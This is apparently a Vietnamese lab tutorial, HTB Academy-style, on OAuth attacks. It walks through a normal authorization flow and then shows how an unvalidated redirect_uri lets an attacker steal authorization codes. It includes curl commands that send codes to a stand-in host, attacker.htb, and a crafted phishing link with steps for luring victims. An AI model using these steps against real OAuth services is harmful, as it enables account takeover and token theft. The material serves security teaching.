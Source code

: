 ### **Mô phỏng quy trình OAuth trong lab**
1. Người dùng truy cập `academy.htb/client/` và chọn đăng nhập bằng tài khoản `hubgit.htb`.
2. `academy.htb` gửi yêu cầu ủy quyền tới `hubgit.htb` thông qua `/authorization/`.
3. Người dùng đăng nhập vào `hubgit.htb` và cấp quyền truy cập.
4. `hubgit.htb` cấp mã ủy quyền và chuyển hướng trình duyệt đến `academy.htb`.
5. `academy.htb` sử dụng mã ủy quyền để yêu cầu token truy cập từ `/authorization/` của `hubgit.htb`.
6. `hubgit.htb` cấp token truy cập, và `academy.htb` sử dụng token này để yêu cầu thông tin người dùng từ `/resource/`.

### **Sử dụng Attacker Server để đánh cắp dữ liệu**
- **Attacker Server (`attacker.htb`)** sẽ được sử dụng để mô phỏng các tấn công, bao gồm việc đánh cắp mã ủy quyền hoặc token truy cập bằng cách exfiltrate dữ liệu.
- Hacker có thể tạo yêu cầu HTTP tới `attacker.htb` để gửi dữ liệu đánh cắp:
  ```bash
  curl -X POST --data 'code=authorization_code' http://attacker.htb/log
  ```

---
# 2. Stealing Access Tokens (Lấy Cắp Access Token)

OAuth là một giao thức được sử dụng để xác thực và cấp quyền truy cập vào các tài nguyên. Tuy nhiên, nếu không được bảo mật đúng cách, nó có thể bị lợi dụng để lấy cắp token truy cập (access token) của người dùng, cho phép kẻ tấn công giả mạo người dùng và truy cập vào tài nguyên của họ. Một trong những lỗ hổng phổ biến là việc không kiểm tra kỹ càng tham số `redirect_uri` trong OAuth flow.

### Cách Tấn Công:
1. **Tạo liên kết tấn công**: Kẻ tấn công sẽ tạo ra một liên kết yêu cầu cấp phép OAuth chứa tham số `redirect_uri` bị thay đổi, trỏ đến máy chủ của kẻ tấn công.
2. **Sử dụng `state`**: Tham số `state` là một giá trị tùy ý, giúp kẻ tấn công theo dõi tiến trình tấn công. Kẻ tấn công có thể chọn bất kỳ giá trị nào cho `state`, miễn là nó nhất quán trong suốt cuộc tấn công.
   
   Ví dụ, kẻ tấn công có thể tạo ra liên kết như sau:
   ```
   http://hubgit.htb/authorization/auth?response_type=code&client_id=0e8f12335b0bf225&redirect_uri=http://attacker.htb/callback&state=somevalue
   ```
3. **Lừa nạn nhân**: Kẻ tấn công cần gửi liên kết này cho nạn nhân (bằng các phương thức như lừa đảo qua email hoặc social engineering).
4. **Nhận Authorization Code**: Khi nạn nhân truy cập liên kết, họ sẽ thấy giao diện đăng nhập của OAuth. Sau khi đăng nhập thành công, thay vì chuyển hướng trở lại ứng dụng hợp lệ, OAuth sẽ chuyển hướng đến máy chủ của kẻ tấn công, gửi về một authorization code.

5. **Thu thập Code**: Kẻ tấn công có thể thu thập authorization code từ logs của máy chủ tấn công. Ví dụ:
   ```
   curl http://attacker.htb/log----/callback?code=Z0FBQUFBQm1BeHdC...
   ```

6. **Hoàn tất OAuth Flow**: Kẻ tấn công sau đó có thể sử dụng authorization code này để yêu cầu access token từ máy chủ OAuth, qua đó chiếm quyền truy cập vào tài nguyên của nạn nhân.
